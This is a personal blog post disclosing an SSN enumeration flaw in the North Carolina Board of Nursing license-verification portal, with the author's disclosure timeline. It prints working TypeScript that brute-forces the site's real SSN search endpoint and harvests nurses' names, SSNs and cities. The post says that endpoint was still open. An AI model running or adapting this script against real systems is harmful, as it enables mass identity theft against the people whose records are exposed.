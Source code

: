 ```yaml
---
layout: project
title: Social security number vulnerability for NC Nurses
thumbnail: images/fetchbyssn.png
stack:
  - TypeScript
slug: ncbon-summary
source: https://github.com/willkrakow
publicId: carbon_1_okmryp
description: State agency website reveals social security numbers for registered nurses in North Carolina
date: 2023-02-21
---
```


A few months back my wife started a new nursing job. Around 10AM on her first day, she called and asked me to look up the renewal deadline for her nursing license. Being the good work-from-home husband that I am, I did some Googling and landed on the [North Carolina Board of Nursing License Verification Portal](https://portal.ncbon.com/LicenseVerification/search.aspx).

The portal offers three ways to search for a license: by name, by license number, and by **social security number**. This last one caught my eye - any time a feature related to SSNs is presented on a publicly facing website there's a possibility for data leaks. And state governments have shown [a lack of diligence](https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/) with respect to their employees SSNs before. So I began digging, for evidence of data mishandling.

What I found was that I could brute force the SSN search feature to get a list of names, social security numbers, and cities of residence for a large portion of nurses, nursing assistants, and nurse practitioners registered in the state of North Carolina.
---
To understand how this was possible - almost trivially so - we first need to examine domain of our search: the 1 billion possible nine-digit social security numbers.

The fact that SSNs serve as our nation's de facto 'password' that citizens must use to navigate legal, financial, and professional systems in the United States is somewhat of a duct-tape job. SSNs were never meant to be such a sensitive, critical token - they were introduced to keep track of income taxes. Cards issued between 1946 and 1972 were labeled ["Not for identification purposes"](https://web.archive.org/web/20120629234649/http://www.americanchronicle.com/articles/view/3911). However, in the 1960s, [the government shoehorned them into their current general identification role](https://www.ssa.gov/history/reports/ssnreportc2.html) to simplify digital record-keeping across agencies.

Ironically, despite serving as a pseudo-password to opening a credit card, verifying a license, or retrieving sensitive medical information, SSNs would fail nearly all password requirement checks on modern websites. 

In 2011, the Social Security Administration [began assigning SSNs in a pseudorandom fashion](https://www.ssa.gov/employer/randomization.html), rather than by state (as it did prior to 1972) or ZIP code (1972-2011) as it had in the past. But for those of us born prior to 2011, a bad actor only needs to know the year and US state in which someone was born to quickly assert the first three numbers (e.g., 123-##-####), or at least a range of those first three numbers (e.g., 123-##-#### through 125-##-####). Even the largest state by population, California, had only 81 possible three-digit prefixes between 1973 and 2011 - that means we can be certain that a person born in California between those years *does not* have an SSN in the remaining **99.2%** of all possible combinations.

For those whose parents applied for a social security card in North Carolina between 1972 and 2011 - your SSN is either between 237-##-#### and 246-##-####, or (less likely) 681-##-#### and 690-##-####.
---
So back to my #hacking. I began by digging in the most obvious place: the HTML source and the network requests. I searched for my wife by name, then opened up the dev console and did a quick regex search various forms of her SSN (e.g., #########, ###-##-####, ### ## ####) - and came up empty. Good!

The network requests were also clean - they *were* sending SSNs as a query parameter to the a `/Search.aspx` endpoint, but it seemed resistant to trivial SQL injections. Another point for the Board.

I had assumed that the endpoint would be rate limited and protected with some sort of malicious threat protection, but even after nearly an hour of entering obvious SQL injections and malformed requests, my IP hadn't been blocked. Maybe I could just brute force this?

To test my theory, I copied the `/Search.aspx` API call as a curl request and sent a few test payloads. And there it was - the API was returning different response statuses for positive results and negative results, and the results list for a given SSN query was serialized in an ASP.NET _VIEWSTATE attribute.

To test the extent of this vulnerability I wrote ~50 lines of TypeScript that would loop through a shortened list of 1 million numbers (e.g., ###-00-0000 - ###-99-9999) and check if the response had results or not. I let that script run for about 20 minutes - with no interval randomization, no IP address shuffling, no proxy server, and managed to construct a list of over 1000 names, SSNs, and cities of residence for the nurses of North Carolina. With a little optimization, I'm confident I could retrieve thousands of results in an equally short amount of time.

```typescript
const fetchBySSN = (num: string) => fetch("https://portal.ncbon.com/LicenseVerification/search.aspx", {
        method: "POST",
        headers: {
            "accept": "text/html,application/xhtml+xml",
            "content-type": "application/x-www-form-urlencoded",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`
        },

        "referrerPolicy": "strict-origin-when-cross-origin",
        "referrer": "https://portal.ncbon.com/LicenseVerification/search.aspx",
        body: `__VIEWSTATE=%...txtSSN=${num}&...`,
})

// Negative result will contain the string "unable to locate any results..."
// Positive result will contain any empty <ul> for the error messages
```
```typescript

const fetchResultsList = () => fetch("https://portal.ncbon.com/LicenseVerification/resultList.aspx", {
        headers: {
            "authority": "portal.ncbon.com",
            "accept": "text/html,application/xhtml+xml",
            "cache-control": "no-cache",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`,
            "referer": "https://portal.ncbon.com/licenseverification/search.aspx",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1"
        }
})
```
### Response
```html
...
<tr>
	<td>M**** P*******</td>
	<td>Asheville, NC</td>
	<td>NAII Listing</td>
	<td class="text-right">
        <input type="button" value="View Record" class="btn btn-info btn-xs" onclick="document.location='/LicenseVerification/result.aspx?ID=7****5';" />
    </td>
</tr>
...
```
```typescript
const prefixes = ['']

const ssnFetches = async () => {
    const filename = path.join(__dirname, 'results_new.txt');
    fs.appendFileSync(filename, 'Results');

    let totalFound = 0;

    for await (let prefix of prefixes) {
        for (let i = 1; i < 100; i++) {
            let areaCode = `${i}`;
            if (i < 10) {
                areaCode = `0${i}`
            }
            for (let j = 9998; j > 1000; j--) {
                let lastFour = `${j}`
                const fullSSN = `${prefix}-${areaCode}-${lastFour}`
                try {
                    const res = await fetchBySSN(fullSSN);
                    if (res.status !== 200) {
                        console.error("Error fetching")
                        console.error(res.statusText)
                        continue
                    }
                    const text = await res.text()
                    if (text.includes('unable to locate any results matching ')) {
                        console.info(`No matches for ${fullSSN}`)
                        continue;
                    }
                    const resultString = `${fullSSN} - is a nurse\n`

                    const resultResponse = await fetchResultsList(); // Fetch the results HTML using the same session cookie
                    const resultHtml = await resultResponse.text();
                    const document = new jsDom.JSDOM(resultHtml);
                    const nodes = document.window.document.querySelectorAll("div.primaryContent tr"); // Grab the results from the <table>
                    const results = [...nodes]
                        .slice(1) // Remove header row
                        .map(row => ({
                            name: row.children[0].innerHTML,
                            location: row.children[1].innerHTML,
                            ssn: fullSSN,
                        }));
                    fs.appendFileSync(filename, JSON.stringify(results));
                    totalFound += 1;
                    console.log(`total found: ${totalFound}`)
                    console.log(resultString)
                } catch (err) {
                    console.error(err)
                }
            }
        }
    }    
}
```
---
I reported these findings to the NCBON immediately after discovery and initial documentation. About 24 hours later, I still hadn't heard back, though they had commented out the section of HTML that displayed the SSN search so they clearly read my message. However, the API endpoint was still open, and again I was able to exploit it with no problems. I sent another message mentioning this, and a few hours later received a call from the Board's Chief Legal Officer.

The legal officer apologized for the delay, thank me for being forthcoming, and we set up a time to meet with the IT Director to discuss the issue the following day. I sent over the scripts, payloads, screenshots, and a timeline as well as a summary of my findings and recommendations, and they said they'd get back to me with any questions.
---
It's been about 45 days since that call, which is more than the 30 day disclosure window I thought was adequate. Last I checked, the endpoint was still open.



